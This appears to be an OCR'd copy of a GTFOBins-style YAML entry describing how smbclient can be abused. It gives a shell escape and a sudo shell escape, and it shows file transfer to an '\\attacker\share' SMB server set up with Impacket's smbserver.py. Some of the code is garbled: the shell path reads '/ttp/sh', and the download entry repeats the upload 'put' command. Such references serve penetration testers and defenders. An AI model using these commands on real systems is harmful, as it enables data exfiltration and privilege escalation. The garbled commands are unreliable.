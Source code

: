 ```yaml
---
description: A valid SMB/CIFS server must be available.
functions:
  shell:
    - code: |
        smbclient '\\attacker\share'
        !/ttp/sh
  file-upload:
    - description: Install [Impacket](https://github.com/SecureAuthCorp/impacket) and run `sudo smbserver.py share /tmp` on the attacker box to collect the file.
      code: |
        smbclient '\\attacker\share' -c 'put file_to_send where_to_save'
  file-download:
    - description: Install [Impacket](https://github.com/SecureAuthCorp/impacket) and run `sudo smbserver.py share /tmp` on the attacker box to send the file.
      code: |
        smbclient '\\attacker\share' -c 'put file_to_send where_to_save'
  sudo:
    - code: |
        sudo smbclient '\\attacker\share'
        !/ttp/sh
---
```

